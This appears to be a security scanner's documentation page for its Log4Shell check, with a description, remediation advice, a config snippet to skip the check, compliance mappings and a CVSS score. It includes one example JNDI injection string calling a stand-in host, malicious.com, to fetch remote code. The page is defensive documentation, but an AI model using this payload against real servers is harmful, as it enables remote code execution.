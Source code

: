 ```yaml
---
title: Log4Shell
---
```


# Log4Shell

## Description

Log4Shell is a vulnerability that allows attackers to execute arbitrary code by injecting untrusted data into log messages processed by the Log4j library.
Example: `logger.error('${jndi:ldap://malicious.com/a}'')` could trigger the execution of code from a remote server.


## Remediation

To prevent Log4Shell vulnerabilities, take the following actions:
- Update Log4j to the latest version, where this vulnerability is patched.
- Use input validation and sanitization to ensure that user inputs are not directly used in log messages.
- Disable the `jndi` lookups in Log4j by setting the system property `log4j2.formatMsgNoLookups` to `true`.
- Restrict outbound network access from the servers running your applications to prevent JNDI lookups from reaching untrusted servers.
- Implement application-level security controls and monitor for unusual log patterns that may indicate attempted exploits.



### REST Specific

<details>
    <summary>Spring_boot</summary>

Update Log4j to version 2.15.0 or later to mitigate the Log4Shell vulnerability. Ensure that log messages do not include untrusted data without proper validation and sanitization. Disable `jndi` lookups by setting the `log4j2.formatMsgNoLookups` system property to `true`. Regularly review and monitor logs for suspicious activities.

</details>

## Configuration

> Identifier: `injection/log4shel`



### Examples



#### Ignore this check

```yaml
checks:
  injection/log4shel:
    skip: true
```




## Score

- Escape Severity: **<span className="high-severity">HIGH</span>**

### Compliance

- OWASP: **[API8:2023](https://github.com/OWASP/API-Security/blob/master/editions/2023/en/0xa8-security-misconfiguration.md)**
- pci: **6.5.10**
- gdpr: **Article-32**
- soc2: **CC6**
- psd2: **Article-97**
- iso27001: **A.14.2**
- nist: **SP800-53**
- fedramp: **SI-10**

### Classification

- CWE: **829**




### Score

- CVSS_VECTOR: **CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H/E:H/RL:O/RC:C**
- CVSS_SCORE: **9.8**

## References

- [https://cwe.mitre.org/data/definitions/829.html](https://cwe.mitre.org/data/definitions/829.html)
  - [https://logging.apache.org/log4j/2.x/security.html](https://logging.apache.org/log4j/2.x/security.html)
  